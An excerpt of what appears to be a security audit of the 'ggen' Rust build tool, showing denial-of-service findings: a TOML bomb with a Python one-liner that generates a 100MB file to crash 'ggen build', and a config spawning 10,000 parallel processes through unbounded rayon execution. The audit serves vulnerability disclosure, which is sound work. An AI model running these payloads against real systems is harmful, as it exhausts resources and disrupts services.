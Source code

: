 #### Attack Vectors:
```toml
# TOML bomb - Exponential memory expansion
[[workspace.w1.w2.w3.w4.w5.w6.w7.w8.w9.w10]]
path = "aaaaaaa..."  # Repeated 1MB+ times

# Deeply nested structures
[lifecycle.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p.q.r.s.t.u.v.w.x.y.z]
command = "echo 'nested'"
```

#### Exploitation:
```bash
# Create 100MB TOML file
python -c "print('[lifecycle.{}]\ncommand=\"echo\"'.format('a'*1000000)*100)" > make.toml
ggen build  # OOM crash
```

---

### 5. **Unbounded Parallel Execution**
**File**: `/Users/sac/ggen/ggen-core/src/lifecycle/exec.rs:126-158`
**Severity**: 🟠 **HIGH** (CVSS 7.3)
**Impact**: Resource exhaustion, fork bomb

#### Vulnerable Code:
```rust
if parallel {
    use rayon::prelude::*;

    let results: Vec<Result<()>> = workspaces
        .par_iter()  // ⚠️ No limit on parallelism!
        .map(|(ws_name, workspace)| {
            // Spawns unlimited processes
        })
        .collect();
}
```

#### Attack Vectors:
```toml
# Create 10,000 workspaces
[workspace.ws_1]
path = "ws1"
[workspace.ws_2]
path = "ws2"
# ... repeated 10,000 times

[lifecycle.build]
parallel = true
command = "echo 'spawn'"  # Spawns 10k processes
```

---